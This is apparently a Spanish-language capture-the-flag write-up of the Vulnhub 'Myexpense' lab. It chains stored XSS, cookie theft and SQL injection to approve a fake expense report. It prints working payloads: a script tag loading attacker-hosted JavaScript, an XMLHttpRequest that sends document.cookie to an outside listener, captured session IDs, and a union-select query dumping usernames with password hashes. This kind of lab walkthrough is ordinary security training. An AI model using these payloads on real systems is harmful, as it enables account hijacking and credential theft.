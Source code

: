 ```yaml
---
title: Myexpense Writeup Vulnhub
published: true
---
```


# Historia

La máquina "Myexpense" nos pone en la situación de que somos "Samuel Lamotte" y acabamos de ser despedido de la empresa "Furtura Business Informatique". Lamentablemente, debido a su precipitada marcha, no ha tenido tiempo de validar el informe de gastos de su último viaje de negocios, que aún asciende a 750 € correspondientes a un vuelo de ida y vuelta a su último cliente.

# Enumeración

Empezamos detectando en que IP está la máquina que nos hemos descargado

```bash
fping -a -g 192.168.1.0/24 2>/dev/null
```

Y en mi caso está en la IP 192.168.1.80 

Ahora ya podemos escanear con nmap

```nmap
nmap -sCV -T4 192.168.1.80 

Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 16:12 CEST
Nmap scan report for 192.168.1.79
Host is up (0.00026s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
| http-robots.txt: 1 disallowed entry 
|_/admin/admin.php

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds
```

Gracias a la enumeración de nmap podemos ver que existe /admin/admin.php

![[1a.png]]

Si le damos al boton de "Inactive" para cambiarlo a "Active" pero no podemos porque lo tiene que hacer un administrador

![[2a.png]]

Probamos a iniciar sesión pero la cuenta de "slamotte" esta inactiva, asi que tendremos que crear una cuenta nueva. Dentro de la pagina para crear una cuenta nueva podemos probar a realizar un XSS. Lo que vamos a hacer es crear un XSS donde llame a la petición "192.168.1.80/admin/admin.php?id=11&status=active"

El codigo javascript que usaremos será el siguiente:

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.79/admin/admin.php?id=11&status=active');
request.send();
```

Ponemos el siguiente XSS en el lugar de "Firstname" y "Lastname"

```javascript
<script src="http://192.168.1.76/eskere.js"></script>
```

Abrimos un servidor http

```python
python3 -m http.server 80
```

Para poder mandarlo tendremos que borrar la etiqueta "disabled=""".
![[3a.png]]

Después de un rato podremos ver lo siguiente

```python
python3 -m http.server 80        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.80 - - [30/Jul/2023 17:42:13] "GET /eskere.js HTTP/1.1" 200 -
```

Y podremos acceder a la cuenta de Samuel y podremos mandar la solicitud del dinero

![[4a.png]]

Lo mandamos y mirando la página web podemos encontrar en nuestro perfil que nuestro manager es "Manon Riviere". Para ello tendremos que modificar el script que teníamos antes pero en vez de mandar una petición, tendremos que capturar la cookie del usuario de "Manon Riviere"

(Cambiamos el puerto para que no cause problemas con el anterior script que habíamos creado)

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.79:4444/?cookie=' + document.cookie);
request.send();
```

```python
python3 -m http.server 4444

Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /?cookie=PHPSESSID=01mm6p8v9vrrqar6omtmf9qoc2 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:17] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:17] "GET /?cookie=PHPSESSID=f8ssrjl36iljv0d3ijkvrj4hu2 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /?cookie=PHPSESSID=lais5ikdk3o7s4rju48lj729l5 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /?cookie=PHPSESSID=lais5ikdk3o7s4rju48lj729l5 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /?cookie=PHPSESSID=950elpe0sss3vrjuc9ijntt8a7 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /?cookie=PHPSESSID=950elpe0sss3vrjuc9ijntt8a7 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /?cookie=PHPSESSID=s9ldcc3i4nh0vjlihhl87f4e81 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /?cookie=PHPSESSID=s9ldcc3i4nh0vjlihhl87f4e81 HTTP/1.1" 200 -
```

Probamos cada una de las cookies hasta que nos podamos cambiar de usuario ha "Manon Riviere"

![[6a.png]]

Entramos en la pestaña "Expense reports" y permitimos el pago. Como paso final tenemos que llegar a ser "Paul Bauduoin" que es un "Financial approver". En la pestaña de "Rennes" podemos ver que si añadimos una ' en la url podemos ver que aparece el siguiente error.

![[7a.png]]

Asi que utilizando XSS otra vez pero en la url podremos sacar las contraseñas de los usuarios de la base de datos con la siguiente sintasis.

```sql
http://192.168.1.81/site.php?id=2 union select 1, group_concat(username,0x3a, password) from user-- -
```

copiamos todo el contenido en un bloc de notas y quedaría así

```
afoulon:124922b5d61dd31177ec83719ef8110a
pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
deviltrigger:3f2c8111d6a0cfd65cf04dcf466014ca
```

Continuamos desencriptando la contraseña de "pbaudouin" que está en md5. Iniciamos sesión con su usuario y contraseña y finalmente podremos validar el pago. Una vez validado podemos volver a la cuenta de "slamotte" conseguiremos la flag de la máquina.

![[8a.png]]
